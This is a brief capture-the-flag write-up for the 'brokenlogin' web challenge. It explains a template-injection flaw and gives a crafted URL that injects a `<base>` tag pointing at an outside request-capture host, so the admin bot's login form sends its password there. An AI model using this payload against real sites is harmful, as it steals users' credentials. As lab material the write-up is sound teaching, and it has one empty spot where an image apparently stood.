



# brokenlogin



This is a simple login web application. By inspecting the source code [app.py](./source/app.py), we can see that it has an SSTI vulnerability through `custom_message` because of the use of `render_template_string`. 

In the [bot](./source/brokenlogin.js) source code, we can see that the bot only accesses to the page and then submits the admin's username and password. Additionally, the admin's password is the flag.

My idea is use `custom_message` to inject `<base>` tag into HTML document, and then provide the modified link to the admin. By logging in, the admin's credential will be leaked.
```URL
https://brokenlogin.web.actf.co/?message={{request.args.l|safe}}&l=%3Cbase%20href=%22https://ybck7ges.requestrepo.com%22%3E
```

The HTML document will be


Send that URL to the admin bot and get the flag.
